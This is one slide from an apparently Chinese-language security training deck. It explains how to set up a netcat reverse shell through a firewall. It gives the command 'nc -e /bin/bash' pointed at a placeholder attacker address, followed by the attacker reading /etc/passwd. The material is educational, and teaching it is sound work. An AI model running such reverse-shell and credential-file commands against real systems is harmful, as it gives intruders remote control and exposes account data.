

# 資安常用指令
nc(netcat)命令工具:
Reverse shell建立(中間有防火牆):

建立步驟
目標主機主動與攻擊者的Port 1234建立連線，並使用sh去執行
[obj]# nc –e /bin/bash [攻擊者URL] [1234]
 [attack]# more /etc/passwd (完成連線後攻擊者下達的指令)

攻擊者
發送攻擊指令

目標
shell
連線某個TCP PORT
285